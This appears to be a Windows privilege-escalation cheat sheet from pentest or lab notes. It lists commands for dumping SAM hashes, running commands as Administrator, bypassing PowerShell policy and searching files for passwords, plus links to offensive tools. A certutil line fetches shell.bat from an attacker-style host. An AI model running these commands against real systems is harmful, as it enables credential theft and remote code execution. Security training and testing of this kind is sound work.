 - Retrieving Hashes using Secretsdump.py

```shell
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### Ressources

- Download Runas
```sh
wget https://github.com/antonioCoco/RunasCs
```

- Switch user cmd
```sh
RunasCs.exe Administrator password "cmd /c whoami "
```

- Bypass Powershell Policy 
```powershell-session
Set-ExecutionPolicy Bypass -Scope Process
```
- Compiled Tools : 
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

- Grep on Windows : 
```sh
cat file.txt | Select-String password
```

- Living Off The Land Binaries and Scripts (LOLBAS):
https://lolbas-project.github.io/#

- Transferring File with Certutil :
```powershell
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

- Encoding File with Certutil : 
```cmd-session
certutil -encode file1 encodedfile
```

- Decoding File with Certutil
```cmd-session
 certutil -decode encodedfile file2
```

- Run DLL : 
```cmd
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

#Windows_Tools
**Some Automated Tools**

- WinPEAS - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- Windows PrivEsc Checklist - https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
- Sherlock - https://github.com/rasta-mouse/Sherlock
- Watson - https://github.com/rasta-mouse/Watson
- PowerUp - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- JAWS - https://github.com/411Hall/JAWS
- Windows Exploit Suggester - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- Metasploit Local Exploit Suggester - https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe
- Seatbelt - https://github.com/GhostPack/Seatbelt
```shell
Seatbelt.exe -group=all -full
```
- SharpUp - https://github.com/GhostPack/